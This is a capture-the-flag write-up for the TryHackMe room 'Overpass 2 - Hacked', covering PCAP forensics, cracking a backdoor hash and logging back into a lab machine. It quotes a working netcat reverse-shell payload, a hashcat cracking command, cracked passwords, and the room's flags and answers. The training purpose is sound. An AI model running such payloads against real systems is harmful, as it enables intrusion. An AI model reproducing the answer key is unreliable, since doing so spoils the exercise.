 # Overpass 2 - Hacked


- Task 1 `Forensics - Analyse the PCAP`
> Download The pcapng File and run with wireshark
> What was the URL of the page they used to upload a reverse shell? `/development/`
> What payload did the attacker use to gain access?`exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")`
> What password did the attacker use to privesc? `whenevernoteartinstant`
> How did the attacker establish persistence? `https://github.com/NinjaJc01/ssh-backdoor`
> Using the fasttrack wordlist, how many of the system passwords were crackable? `4`
```bash
secret12         (bee)
abcd123          (szymex)
1qaz2wsx         (muirland)
secuirty3        (paradox)
```
- Task 2 `Research - Analyse the code`
> What's the default hash for the backdoor? `bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3`
> What's the hardcoded salt for the backdoor? `1c362db832f3f864c8c2fe05f2002a05`
> 
What was the hash that the attacker used? - go back to the PCAP for this! `6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`
> Crack the hash using rockyou and a cracking tool of your choice. What's the password?
`november16`
    using `hashcat -m 1710 -o plain_pass.txt enc_pass.txt /usr/share/wordlists/rockyou.txt`

- Task 3 Attack - Get back in!
    Scan using nmap target machine `nmap -sC -sV -A 10.10.122.187 > nmap_scan`
    ```bash 
        2222/tcp open  ssh     OpenSSH 8.2p1 Debian 4 (protocol 2.0)
        | ssh-hostkey: 
        |_  2048 a2:a6:d2:18:79:e3:b0:20:a2:4f:aa:b6:ac:2e:6b:f2 (RSA)
        Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    ```
    
ssh james@10.10.122.187 -oHostKeyAlgorithms=ssh-rsa -p2222

> The attacker defaced the website. What message did they leave as a heading? `H4ck3d by CooctusClan`
> What's the user flag? `thm{d119b4fa8c497ddb0525f7ad200e6567}`
> What's the root flag? `thm{d53b2684f169360bb9606c333873144d}`
